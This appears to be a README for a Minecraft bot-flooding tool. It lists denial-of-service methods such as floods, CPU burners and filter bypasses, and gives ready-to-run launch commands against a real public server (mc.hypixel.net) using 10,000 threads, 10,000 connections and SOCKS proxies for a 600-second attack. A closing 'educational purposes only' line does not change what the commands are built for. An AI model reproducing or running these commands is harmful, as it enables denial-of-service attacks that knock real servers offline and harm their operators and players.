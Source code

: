 ## Website: https://itzapiphub.online/
<p align="center"><img src="https://github.com/nejason57mars/mcbot/blob/main/icon/test.ico" width="150px" height="150px" alt="mcbot"></p>
<h1 align="center">⚠WARNING: to kill botfilter you need a very powerful Dedicated Server or VDS</h1>

## Methods
```💣 Methods:
localhost
flood2
extreme4
flood1
bosshandler
cpuburner1
cpuburner2
cpuburner3
cpulagger
extreme2
test1
extreme1
spigot2
test2
spigot1
cpuburner4
cpuburner5
cpuburner6
ExploitBot
bypass1
RNick
bypass3
bypass2
```

## START in Spanish
```java -jar CIPHER-BOT.jar host=mc.hypixel.net port=25565 protocol=47 exploit=botfucker proxiesFile=socks.txt srvResolve=false srvResolve2=false threads=10000 timeout=1000 attackTime=600 connections=10000 loopAmount=1 keepAlive=true alwaysResolve=false print=false multi=true removeFailure=false proxiesType=socks socksV4=true```

## START Normal
```java -jar exploitbot.jar host=mc.hypixel.net port=25565 protocol=47 exploit=ExploitBot proxiesFile=socks.txt srvResolve=false srvResolve2=false threads=10000 timeout=1000 attackTime=600 connections=10000 loopAmount=1 keepAlive=true alwaysResolve=false print=false multi=true removeFailure=false proxiesType=socks socksV4=true```

## WARNING
* Use this script for educational purposes only or to test your server!
